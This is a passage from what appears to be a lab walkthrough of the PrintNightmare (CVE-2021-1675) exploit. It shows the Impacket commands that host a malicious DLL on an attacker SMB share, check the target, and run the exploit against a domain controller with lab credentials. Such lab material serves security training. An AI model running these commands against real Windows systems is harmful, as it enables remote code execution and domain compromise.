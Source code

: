 Great, now you'll need to host the malicious DLL in a SMB share running on the attacker box. We'll use the AttackBox in this example.

Below is how to do this with smbserver.py from Impacket.

Start the SMB share with Impacket to host the maliciousDLL

**Kali**

```shell-session
mdir /root/share
smbserver.py share /root/share/ -smb2support 
```

A brief explanation for the command in the above image:

1. This is the name of the SMB share for the exploit execution. (Example: \\\ATTACKER\_IP\share\malicious.dll)
2. This is the local folder that will store the malicious DLL. (Example: /root/Desktop/share/malicious.dll)

Before we blindly just execute an exploit at the target, let's first examine if the target fits the criteria to exploit it.

### Check if the target is vulnerable to this exploit

**Kali**

```shell-session
rpcdump.py @$VICTIM| egrep 'MS-RPRN|MS-PAR' 
```

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

Yep, looks good. It's finally time to run the exploit. Navigate to the location where you downloaded the exploit code from GitHub, which should be `/root/Desktop/pn/CVE-2021-1675`.&#x20;

We will use the Python script to exploit the PrintNightmare vulnerability against the Windows 2019 Domain Controller.

**Kali**

```shell-session
cd /root/CVE-2021-1675/
python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@$VICTIM '\\$KALI\share\malicious.dll'
```

A brief explanation for the command in the above image:

* python3.9 CVE-2021-1675.py -> you're instructing Python to run the following Python script. The values which follow are the parameters the script needs to exploit the PrintNightmare vulnerability successfully.
* Finance-01.THMdepartment.local -> the name of the domain controller (Finance-01) along with the name of the domain (THMdepartment.local)
* sjohnston:mindheartbeauty76@10.10.57.176 -> the username and password for the low privilege Windows user account. \
